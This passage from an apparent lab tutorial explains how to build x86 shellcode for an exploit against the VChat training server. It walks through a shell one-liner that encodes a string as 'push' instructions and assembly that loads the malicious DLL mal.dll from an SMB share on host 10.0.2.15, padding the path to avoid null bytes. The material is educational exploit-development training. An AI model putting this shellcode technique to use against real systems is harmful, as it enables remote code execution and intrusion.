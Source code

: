 * This means we convert the string into a series of 4-byte hexadecimal chunks as the for loop is written as `for i in $(...)` we can reference each line as `$i`

Now we can look at the body of the for loop:
```sh
$ python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; 
```
* `python3 -c`: Run the python interpreter on the following code, write the results to stdout.
	* `import struct`: The module "struct" performs conversions between Python values and C structs represented as Python bytes objects.
	* `print(struct.pack('<L', 0x$i).hex())`: Print one of the lines ($i) resulting from the conditional statement as a little endian hexadecimal value to stdout.
	* This is repeated till all the 4-byte chunks have been converted. 

Now we can see what happens to all the resulting stdout values after the loop has finished running.
```sh
...| tac | sed 's/^/push 0x/g'
```
* [`tac`](https://www.man7.org/linux/man-pages/man1/tac.1.html): The stdout values produced by the body of the loop are piped into the *tac* command, this reverses the input printing it to stdout (We push the bytes in reverse order to the stack)
* [`sed`](https://www.gnu.org/software/sed/manual/sed.html): The results of *tac* are printed to stdout and are piped into *sed* a stream editor, this goes through the input and replaces/inserts (`s/`) the start of the string (`^`), with `push 0x` without case conversion `/g`.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ea2f908f-3bb5-4600-8005-5848537456cf

1. First we need to move our stack pointer by modifying the `ESP` register so it is not above our shellcode.
	```
	sub esp,0x64            ; Move ESP pointer to be behind (above) our shellcode as the stack grows down this prevents overwrites
	```
2. Next we need to zero out a register in order to write a NULL byte to the stack 
	```
	xor ebx,ebx             ; Zero out EBX to be the NULL terminator
	push ebx                ; PUSH NULL byte
	```
3. Now we can add the instructions to push the string to the stack.
	```
	push 0x6c000000
	push 0x6c642e6e
	push 0x77705c58
	push 0x5c35312e
	push 0x322e302e
	push 0x30315c5c
	```
	* **Notice**: Our first push instruction contains the bad character `0x00`, rather than using an encoder I will simply add a three characters to the SMB share's identifier to pad it out as shown below
		```sh
		$ for i in $(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
		``` 

